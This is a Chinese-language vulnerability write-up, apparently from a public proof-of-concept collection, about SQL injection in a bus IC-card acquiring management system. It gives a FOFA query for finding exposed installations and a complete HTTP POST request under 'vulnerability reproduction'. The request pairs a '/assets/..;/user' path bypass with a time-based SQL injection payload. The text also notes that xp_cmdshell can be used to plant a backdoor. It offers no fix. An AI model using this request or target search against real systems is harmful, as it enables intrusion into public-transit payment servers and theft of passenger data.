 # 公交IC卡收单管理系统user存在SQL注入漏洞

# 一、漏洞简介
公交IC卡收单管理系统是城市公共交通领域中不可或缺的一部分，它通过集成先进的集成电路技术（IC卡）实现了乘客便捷的支付方式，并有效提高了公共交通运营效率。系统集成了发卡、充值、消费、数据采集、查询和注销等多个功能模块，为公交公司和乘客提供了全面、高效、便捷的公共交通支付解决方案。该系统不仅提升了乘客的出行体验，还降低了公交公司的运营成本，提高了管理效率。公交IC卡收单管理系统user存在SQL注入漏洞。经过身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

# 二、影响版本
+ 公交IC卡收单管理系统

# 三、资产测绘
+ fofa`app="公交IC卡收单管理系统"`
+ 特征

![1727274040056-105b772f-bf3b-4e57-bb11-3f4c308b04c5.png](./img/VRig3DHEJTaUgT5w/1727274040056-105b772f-bf3b-4e57-bb11-3f4c308b04c5-035673.png)

# 四、漏洞复现
```java
POST /assets/..;/user HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=BE20D06711487C9D6D5325C1129F244C
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
 
_search=false&nd=1727245865182&rowCountPerPage=10&pageNo=1&sidx=USER_NAME&sord=asc&method=select&USER_NAME=1');WAITFOR DELAY '0:0:5'--&REAL_NAME=1&ACCOUNT_EXPIRE_TIME=%E5%BF%BD%E7%95%A5&PASSWORD_EXPIRE_TIME=%E5%BF%BD%E7%95%A5
```

![1727274189580-15d07235-6ddc-4c09-9a8e-60cac84cbade.png](./img/VRig3DHEJTaUgT5w/1727274189580-15d07235-6ddc-4c09-9a8e-60cac84cbade-972134.png)



> 更新: 2024-10-22 09:36:09  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cvq02glzy3c27bkm>